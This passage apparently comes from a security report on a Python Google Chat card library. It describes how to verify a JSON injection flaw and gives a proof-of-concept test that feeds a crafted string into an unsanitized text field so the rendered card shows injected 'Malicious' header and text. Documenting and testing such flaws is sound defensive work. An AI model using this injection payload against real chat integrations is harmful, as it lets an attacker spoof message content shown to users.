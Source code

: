    5. **Verification:** Observe the rendered card in Google Chat. If the JSON injection is successful, you will see a card rendered with the "Malicious Title", "Malicious Subtitle", and "Malicious Text" defined in the injected JSON, instead of the card the developer originally intended to send. This confirms that the injected JSON was interpreted by Google Chat, effectively manipulating the card structure.

    - **Conceptual Python Test Code Snippet:**

    ```python
    from card_framework.v2 import Card, CardHeader, Message, Section
    from card_framework.v2.widgets import TextParagraph

    def send_chat_message(user_input):
        text_paragraph = TextParagraph(text=user_input) # Vulnerable point: unsanitized input
        section = Section(widgets=[text_paragraph])
        card = Card(sections=[section])
        message = Message(cards=[card])
        json_payload = message.render()
        print(json_payload) # Inspect the JSON payload
        # In a real test, send this payload to Google Chat API and observe rendering.

    malicious_input = '"}], "header": {"title": "Malicious Title", "subtitle": "Malicious Subtitle"}, "sections": [{"widgets": [{"textParagraph": {"text": "Malicious Text"} } ] } ] }, "cardId": "maliciousCard" } }'
    send_chat_message(malicious_input)
    ```
    By running this test and observing the rendered card in Google Chat, you can verify whether the JSON injection vulnerability is exploitable. If the rendered card reflects the malicious content instead of the expected content, it confirms the vulnerability.